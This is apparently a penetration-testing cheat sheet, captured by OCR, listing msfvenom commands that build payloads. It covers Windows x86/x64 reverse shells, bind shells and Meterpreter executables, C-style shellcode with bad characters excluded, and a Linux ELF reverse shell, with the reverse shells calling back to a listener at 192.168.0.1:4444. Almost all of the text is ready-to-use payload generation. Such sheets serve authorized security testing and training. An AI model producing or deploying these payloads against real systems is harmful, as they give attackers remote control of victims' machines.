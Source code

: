 Windows Binary (.exe)

32 Bit (x86)

Reverse Shell:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe

```

Bind Shell:

```
msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe

```

Output in Hex, C Style, Exclude bad chars, Exitfunction thread:

```
msfvenom -p windows/shell_bind_tcp LHOST=192.168.0.1 LPORT=4444 EXITFUNC=thread -b "\\x00\\x0a\\x0d\\x5c\\x5f\\x2f\\x2e\\x40" -f c -a x86 --platform windows

```

64 Bit (x64)

Reverse Shell:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe

```

Bind Shell:

```
msfvenom -p windows/x64/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe

```

Meterpreter:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe

```

### Linux Binary (.elf)

Linux Binary (.elf)

32 Bit (x86)

Reverse Shell:

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf

```
